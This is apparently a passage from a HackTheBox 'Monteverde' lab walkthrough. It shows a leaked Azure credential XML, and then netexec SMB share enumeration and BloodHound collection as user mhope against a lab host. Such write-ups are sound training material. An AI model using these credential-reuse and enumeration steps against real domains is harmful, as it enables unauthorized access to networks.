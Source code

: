 ```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ cat azure.xml
��<Objs Version="1.1.0.1" xmlns="http://schemas.microsoft.com/powershell/2004/04">
  <Obj RefId="0">
    <TN RefId="0">
      <T>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</T>
      <T>System.Object</T>
    </TN>
    <ToString>Microsoft.Azure.Commands.ActiveDirectory.PSADPasswordCredential</ToString>
    <Props>
      <DT N="StartDate">2020-01-03T05:35:00.7562298-08:00</DT>
      <DT N="EndDate">2054-01-03T05:35:00.7562298-08:00</DT>
      <G N="KeyId">00000000-0000-0000-0000-000000000000</G>
      <S N="Password">4n0therD4y@n0th3r$</S>
    </Props>
  </Obj>
</Objs>
```

I used the credential to authenticate as `mhope` and list available shares. There are no new or different share permissions.

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ netexec smb 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$' --shares
SMB         10.10.10.172    445    MONTEVERDE       [*] Windows 10 / Server 2019 Build 17763 x64 (name:MONTEVERDE) (domain:MEGABANK.LOCAL) (signing:True) (SMBv1:False)
SMB         10.10.10.172    445    MONTEVERDE       [+] MEGABANK.LOCAL\mhope:4n0therD4y@n0th3r$
SMB         10.10.10.172    445    MONTEVERDE       [*] Enumerated shares
SMB         10.10.10.172    445    MONTEVERDE       Share           Permissions     Remark
SMB         10.10.10.172    445    MONTEVERDE       -----           -----------     ------
SMB         10.10.10.172    445    MONTEVERDE       ADMIN$                          Remote Admin
SMB         10.10.10.172    445    MONTEVERDE       azure_uploads   READ
SMB         10.10.10.172    445    MONTEVERDE       C$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       E$                              Default share
SMB         10.10.10.172    445    MONTEVERDE       IPC$            READ            Remote IPC
SMB         10.10.10.172    445    MONTEVERDE       NETLOGON        READ            Logon server share
SMB         10.10.10.172    445    MONTEVERDE       SYSVOL          READ            Logon server share
SMB         10.10.10.172    445    MONTEVERDE       users$          READ
```

###### BloodHound enumeration as mhope
Since there's nothing different with the SMB, I decided to use this credential to enumerate using **BloodHound**. 

```
┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ bloodhound-python -u 'mhope' -p '4n0therD4y@n0th3r$' -d MEGABANK.LOCAL -ns 10.10.10.172 --zip -c all -v
...SNIP...
INFO: Done in 01M 20S
INFO: Compressing output into 20250204223607_bloodhound.zip

┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ sudo neo4j start
...SNIP...

┌──(chronopad㉿VincentXPS)-[~/HTB/newlabs/monteverde-windows]
└─$ bloodhound
```
